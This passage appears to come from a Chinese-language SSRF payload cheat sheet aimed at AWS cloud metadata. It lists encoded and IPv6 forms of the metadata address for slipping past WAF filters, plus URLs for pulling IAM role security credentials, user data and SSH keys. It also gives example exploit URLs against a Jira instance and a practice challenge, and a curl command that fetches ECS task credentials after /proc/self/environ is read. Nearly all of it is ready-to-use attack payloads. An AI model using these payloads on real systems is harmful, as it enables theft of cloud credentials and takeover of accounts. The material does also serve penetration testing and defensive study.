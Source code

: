 * 使用编码IP绕过WAF

  ```powershell
  http://425.510.425.510 Dotted decimal with overflow
  http://2852039166 Dotless decimal
  http://7147006462 Dotless decimal with overflow
  http://0xA9.0xFE.0xA9.0xFE Dotted hexadecimal
  http://0xA9FEA9FE Dotless hexadecimal
  http://0x41414141A9FEA9FE Dotless hexadecimal with overflow
  http://0251.0376.0251.0376 Dotted octal
  http://0251.00376.000251.0000376 Dotted octal with padding
  http://0251.254.169.254 Mixed encoding (dotted octal + dotted decimal)
  http://[::ffff:a9fe:a9fe] IPV6 Compressed
  http://[0:0:0:0:0:ffff:a9fe:a9fe] IPV6 Expanded
  http://[0:0:0:0:0:ffff:169.254.169.254] IPV6/IPV4
  http://[fd00:ec2::254] IPV6
  ```

这些URL返回与实例关联的IAM角色列表。然后你可以将角色名称附加到此URL以检索该角色的安全凭证。

```powershell
http://169.254.169.254/latest/meta-data/iam/security-credentials
http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]
```

此URL用于访问在启动实例时指定的用户数据。用户数据通常用于向实例传递启动脚本或其他配置信息。

```powershell
http://169.254.169.254/latest/user-data
```

其他URL用于查询有关实例的各种元数据，如主机名、公共IPv4地址和其他属性。

```powershell
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/meta-data/ami-id
http://169.254.169.254/latest/meta-data/reservation-id
http://169.254.169.254/latest/meta-data/hostname
http://169.254.169.254/latest/meta-data/public-keys/
http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key
http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key
http://169.254.169.254/latest/dynamic/instance-identity/document
```

**示例**：

* Jira SSRF 导致 AWS 信息泄露 - `https://help.redacted.com/plugins/servlet/oauth/users/icon-uri?consumerUri=http://169.254.169.254/metadata/v1/maintenance`
* Flaws 挑战 - `http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/iam/security-credentials/flaws/`

## AWS ECS 的 SSRF URL

如果你在一个ECS实例上有一个具有文件系统访问权限的SSRF，请尝试提取`/proc/self/environ`以获取UUID。

```powershell
curl http://169.254.170.2/v2/credentials/<UUID>
```
